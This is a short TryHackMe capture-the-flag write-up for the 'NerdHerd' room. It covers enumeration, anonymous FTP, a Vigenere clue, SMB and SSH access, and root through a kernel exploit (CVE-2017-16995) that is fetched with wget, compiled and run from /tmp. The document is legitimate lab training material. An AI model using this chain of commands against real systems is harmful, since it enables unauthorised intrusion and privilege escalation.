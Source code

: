 ```yaml
---
title: "NerdHerd - TryHackMe"
date: "2021-01-03"
categories: 
  - "tryhackme"
---
```


write-up for room tryhackme room [nerdherd](https://tryhackme.com/room/nerdherd).

Start with Nmap scan

```
nmap -A -oN allport -p- $IP -T4
```

![](/Images/nerdherd/Screenshot-2021-01-02-211517.png)

FTP server is running which allow the anonymous users to login. login to FTP and download available files. cannot login to SMB because it require password.

![](/Images/nerdherd/Screenshot-2021-01-02-001736.png)

When we go though all the file we downloaded, can be notice this detail.

![](/Images/nerdherd/Screenshot-2021-01-02-001931.png)

we found the owner name, but it little suspicious maybe it can ciphered text, you can check what kind of cipher from here.

**[Cipher Identifier](https://www.boxentriq.com/code-breaking/cipher-identifier#vigenere-cipher)**

![](/Images/nerdherd/Screenshot-2021-01-02-202045.png)

for decipher Vigenere we need key, for now we don't have key so keep enumerate. There is website hosted in port 1337, when we inspect the webpage we

![](/Images/nerdherd/Screenshot-2021-01-02-202324.png)

there is video link when you go to that link you can see it play a song, keep listen to song the word "**bird**" keep coming so i though it might be the key. tried and not quiet right then tried "**birdistheword**" it decipher word correctly.

![](/Images/nerdherd/Screenshot-2021-01-02-202803-1024x604.png)

Now we have password, this might give access to SMB so i tired so many users with this password all failed. after long time thinking i tired to reverse image search and come with these name.

![](/Images/nerdherd/Screenshot-2021-01-03-165409.png)

```
smbclient -U chuck //$IP/nerdherd_classified
```

![](/Images/nerdherd/Screenshot-2021-01-02-210321.png)

in SMB we find secr3t.txt which contain the hidden directory details, when we go to that endpoint we find **creds.txt** file.

![](/Images/nerdherd/Screenshot-2021-01-02-210433-1.png)

we have creds login in ssh, now we can login and escalate privilege.

## Privilege Escalation

commands to run when login into machine.

- uname -a
- sudo -l
- id
- find / -user root -perm /4000 2>/dev/null
- linpeas.sh

when we enumerating we find the kernel version is vulnerable.

**[CVE-2017-16995](https://www.exploit-db.com/exploits/45010)**

download to local PC and upload to VM in **/tmp** folder

```
wget http://$IP/45010.c 

gcc 45010.c -o exploit

chmod +x exploit

./exploit
```

![](/Images/nerdherd/Screenshot-2021-01-02-211146.png)

![](/Images/nerdherd/Screenshot-2021-01-02-211303.png)

Finally Root.

Happy Hacking!!
